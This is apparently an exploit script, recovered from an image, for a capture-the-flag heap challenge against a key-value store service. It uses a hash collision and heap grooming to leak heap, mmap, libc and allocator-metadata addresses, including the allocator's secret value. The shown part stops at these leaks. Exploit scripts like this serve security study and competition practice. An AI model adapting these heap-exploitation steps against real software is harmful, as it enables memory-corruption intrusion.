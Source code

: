 ```py
def query(key_content, key_size = None):
    sla(b'option: ', b'2')
    if key_size is None:
        sla(b'key size: ', str(len(key_content)).encode())
        sa(b'key content: ', key_content)
    else:
        sla(b'key size: ', str(key_size).encode())
        sa(b'key content: ', key_content)

def delete(key_content):
    sla(b'option: ', b'3')
    sla(b'key size: ', str(len(key_content)).encode())
    sa(b'key content: ', key_content)

def find_collision(victim: bytes):
    i = 0
    target = encrypt(victim)
    while True:
        if encrypt(str(i).encode()) == target and str(i).encode() != victim:
            return str(i).encode()
        i += 1

def hex2bytes(content: bytes):
    res = b''
    for i in range(len(content) // 2):
        res += p8(int(content.decode()[i*2], 16) * 0x10 + int(content.decode()[i*2+1], 16))
    return res

                                                    # 6543210
store(b'A', b'9889')                                # AAAAAAU
for i in range(5):
    query(b'A' * 0x30)                              # AFFFFFU
store(b'B', b'A' * 0x30)                            # UAAAAUU
store(find_collision(b'B'), b'B')                   # UAAAUUU
delete(b'B')                                        # FAAAUFU
for i in range(3):
    query(b'A' * 0x30)                              # FFFFUFU -> AAAAUAU
store(b'C', b'C' * 0x1000)                          # AAAUUUU
query(b'B')

leak = hex2bytes(io.recvline().split(b":")[1])
group_addr = u64(leak[0:8]) - 0x70
smallchunk = group_addr + 0x30
mmap_addr = u64(leak[8:16]) - 0x20
enc = u64(leak[32:40]) - 1
libc_base = mmap_addr + 0x4000

for i in range(3):
    query(b'B' * 0x30)
query(p64(smallchunk) + p64(group_addr) + p64(1) + p64(0x30) + p64(enc) + p64(0), key_size=0x30)
query(b'B')

leak = hex2bytes(io.recvline().split(b":")[1])
meta_addr = u64(leak[0:8])
meta_area = meta_addr & 0xFFFF_FFFF_FFFF_F000
info('meta_area: ' + hex(meta_area))
for i in range(3):
    query(b'B' * 0x30)
query(p64(smallchunk) + p64(meta_area) + p64(1) + p64(0x30) + p64(enc) + p64(0), key_size=0x30)
query(b'B')

leak = hex2bytes(io.recvline().split(b":")[1])
secret = u64(leak[0:8])
```
